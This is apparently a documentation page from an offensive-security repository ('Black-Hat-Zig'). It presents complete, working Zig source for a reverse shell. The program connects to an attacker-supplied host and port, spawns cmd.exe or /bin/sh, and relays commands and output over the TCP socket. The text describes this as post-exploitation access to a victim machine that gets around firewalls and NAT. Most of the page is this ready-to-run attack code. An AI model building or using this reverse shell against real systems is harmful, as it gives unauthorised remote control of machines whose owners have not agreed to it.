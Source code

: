 # Reverse Shell Using Standard Library

## TL;DR

[See the code example](https://github.com/CX330Blake/Black-Hat-Zig/tree/main/src/Reverse-Shell/std_reverse_shell)

This example implements a classic reverse shell using only Zig's standard
library. It connects to a remote host and spawns a command interpreter whose
input and output are tunneled through the TCP socket. Once the connection is
established, the attacker can issue commands and receive their results as if
they were running directly on the victim machine. Reverse shells are frequently
used in post-exploitation to gain interactive access behind firewalls or NAT
devices.

## Code Walkthrough

```zig title="main.zig"
const std = @import("std");
const builtin = @import("builtin");

pub fn main() !void {
    var gpa = std.heap.GeneralPurposeAllocator(.{}){};
    defer _ = gpa.deinit();
    const allocator = gpa.allocator();

    const args = try std.process.argsAlloc(std.heap.page_allocator);
    defer std.process.argsFree(std.heap.page_allocator, args);
    if (args.len != 3) {
        std.debug.print("Usage: {s} <IP> <PORT>\n", .{args[0]});
        return;
    }

    const target_hostname = args[1];
    const target_port_str = args[2];

    const target_port = std.fmt.parseInt(u16, target_port_str, 10) catch |err| {
        std.debug.print("Error parsing port '{s}': {}\n", .{ target_port_str, err });
        return;
    };

    var shell: []const []const u8 = undefined;

    if (builtin.os.tag == .windows) {
        shell = &[_][]const u8{"cmd.exe"};
        std.debug.print("[+] Using cmd.exe as the shell\n", .{});
    } else if ((builtin.os.tag == .linux) or (builtin.os.tag == .macos)) {
        shell = &[_][]const u8{"/bin/sh"};
        std.debug.print("[+] Using /bin/sh as the shell\n", .{});
    } else {
        std.debug.print("[-] Cannot detect target OS", .{});
        return;
    }

    std.debug.print("[+] Connecting to {s}:{d}\n", .{ target_hostname, target_port });

    const address_list = try std.net.getAddressList(allocator, target_hostname, target_port);
    defer address_list.deinit();
    const stream = std.net.tcpConnectToAddress(address_list.addrs[0]) catch {
        std.debug.print("[-] Host seems down. Cannot connect to the host.\n", .{});
        return;
    };
    defer stream.close();

    var process = std.process.Child.init(shell, allocator);
    process.stdin_behavior = .Pipe;
    process.stdout_behavior = .Pipe;
    process.stderr_behavior = .Pipe;
    try process.spawn();
    defer _ = process.kill() catch {};

    var buffer: [4096]u8 = undefined;

    while (true) {
        // Read command from socket
        const bytes_read = stream.read(&buffer) catch break;
        if (bytes_read == 0) break;

        // Send command to process
        _ = process.stdin.?.write(buffer[0..bytes_read]) catch break;

        // Wait for execution
        std.time.sleep(300 * std.time.ns_per_ms);

        // Read output once with reasonable timeout
        if (process.stdout.?.read(&buffer)) |output_len| {
            if (output_len > 0) {
                _ = stream.write(buffer[0..output_len]) catch break;
            }
        } else |_| {
            // If stdout fails, try stderr
            if (process.stderr.?.read(&buffer)) |error_len| {
                if (error_len > 0) {
                    _ = stream.write(buffer[0..error_len]) catch break;
                }
            } else |_| {}
        }
    }
}
```
